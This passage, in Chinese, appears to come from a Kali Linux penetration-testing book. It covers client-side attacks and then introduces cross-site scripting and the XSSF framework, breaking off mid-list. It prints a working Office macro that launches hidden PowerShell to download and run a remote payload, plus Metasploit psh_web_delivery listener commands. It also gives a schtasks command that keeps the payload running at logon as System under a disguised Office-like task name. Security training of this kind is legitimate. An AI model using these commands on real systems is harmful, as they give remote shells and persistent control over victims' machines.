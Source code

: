 Metasploit 框架将生成一行宏，该宏可以嵌入到文档中并用于发起攻击，如以下示例代码所示：

```
 Sub AutoOpen()
 Call Shell("PowerShell.exe -w hidden -nop -ep bypass -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.1.102:4444/boom'))"",1)
 End Sub

```

在攻击完成之前，攻击者必须为传入的 shell 准备一个侦听器（`URIPATH`由 Metasploit 随机生成；确保为侦听器设置了正确的`URIPATH`。创建侦听器的命令如下所示：

```
 msf> use exploit/windows/misc/psh_web_delivery
 msf exploit(psh_web_delivery) > set SRVHOST 192.168.1.102
 msf exploit(psh_web_delivery) > set URIPATH boom
 msf exploit(psh_web_delivery) > exploit

```

成功的攻击将在攻击者的系统上创建一个交互式外壳。

### 提示

可以使用`schtask`命令使`psh_web_delivery`持久化。以下命令将创建一个计划任务`MSOfficeMngmt`，该任务将在登录时实现`powershell.exe`（默认情况下，位于`Windows\system32`目录中）：

```
schtasks /create /tn MSOfficeMngmt /tr "powershell.exe -WindowsStyle hidden -NoLogo -NonInteractive -ep -bypass -nop -c 'IEX ((new-object net.webclient).downloadstring (''http://192.168.1.104:4444/boom'''))'" /sc onlogon /ru System

```

可在 Kali 的 PowerSploit 目录中找到旨在支持漏洞攻击后活动的其他 PowerShell 脚本。尽管 PowerShell 具有灵活性，但它也有一些缺点。

例如，如果最终用户在应用持久性机制之前关闭了包含宏的文档，则连接将丢失。

更重要的是，VBScript 和 PowerShell 等脚本仅对 Microsoft 环境有用。为了扩大客户端攻击的范围，我们需要寻找一个常见的客户端漏洞，该漏洞可以被利用，而不管其操作系统环境如何。此类漏洞的一个特定示例是跨站点脚本。

# 跨站点脚本框架

**跨站点脚本**（**XSS**）漏洞据报道是网站中最常见的可利用漏洞。据估计，高达 80%的所有应用程序中都存在这种物质。

当应用程序（通常基于 web）违反称为**同源策略**的信任概念，并显示用户提供的未经消毒以删除恶意声明的内容时，就会出现 XSS 漏洞。

XSS 漏洞至少有两种主要类型：**非持久性**和**持久性**。

最常见的类型是非持久性或反映的漏洞。当服务器立即使用客户机提供的数据显示响应时，就会发生这种情况。此漏洞的攻击可通过电子邮件或提供 URL 的第三方网站发生，该 URL 似乎引用了受信任的网站，但包含 XSS 攻击代码。如果受信任的站点易受此特定攻击的攻击，则执行链接可能会导致受害者的浏览器执行恶意脚本，从而导致危害。

当攻击者提供的数据由服务器保存，然后在其他用户浏览过程中永久显示在可信网页上时，就会出现持久（存储）XSS 漏洞。这通常发生在允许用户发布 HTML 格式消息的在线留言板和博客上。攻击者可以在网页上放置恶意脚本，该脚本对传入用户不可见，但会危及访问受影响网页的访问者。

Kali Linux 上有几种工具可用于查找 XSS 漏洞，包括**xsser**和各种漏洞扫描器。然而，有一些工具允许测试人员充分利用 XSS 漏洞，这表明了该漏洞的严重性。

**跨站点脚本框架**（**XSSF**）是一个多平台安全工具，利用 XSS 漏洞创建与目标的通信通道，支持攻击模块，包括：
